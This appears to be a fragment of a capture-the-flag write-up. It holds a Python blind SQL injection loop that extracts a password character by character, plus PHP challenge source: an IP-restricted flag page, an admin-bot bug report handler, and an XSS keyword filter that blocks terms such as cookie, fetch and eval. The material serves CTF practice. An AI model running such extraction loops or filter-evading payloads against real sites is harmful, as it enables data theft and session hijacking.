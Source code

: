 ```python
#Hint: /Source Password
#table:gtid_executed,sys_config
result="12,Hint: /Source Password: T1Me"
pos=len(result)*2+2

while True:
    flag=False
    for i in string.printable:
        if sqlinj(ord(i)):
            result+=i
            print("Found:"+result)
            flag=True
            break
        print("result:"+result)
    pos+=2
    if flag is False:
        break
```





##  notes 

www.zip

flag.php

```php
if ($_SERVER['REMOTE_ADDR'] === '172.26.176.2') //only admin, who is at 172.26.176.2, can get FLAG
    echo FLAG;
else echo $_SERVER['REMOTE_ADDR'];

```

bot脚本：

```php

if (isset($_POST['url']) && isset($_POST['captcha']) ) { // report bug to our admin who is at 172.26.176.2, our admin will access the bug url to check
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    if ( checkNote($url) && checkNote(urldecode($url)) && checkURL($url) &&  substr(md5($captcha), 0 , 6) === $_SESSION['captcha'] ) {
        //admin checking, it will take several seconds
        
    } else alertMes('something wrong', './report_bugs.php');
}
?>
```



```php
function checkURL($url) {
    if ( preg_match('/[|~`^;&]/m', $url) )
        return false;
    else return true;
}
function checkNote($s) {
    $filter = '/show|svg|archive|error|eval|on|atob|\\\u|&#|let|cookie|meta|create|fetch|f[^a-z]*l[^a-z]*a[^a-z]*g|src|append|<script>|func|javascript|res|lo|then|ftp|const|ajax|\$|\'|\"/imX';
    if (preg_match($filter, $s) || strlen($s) >= 500 || strlen($s) <= 1) return false;
    else return true;
}
```
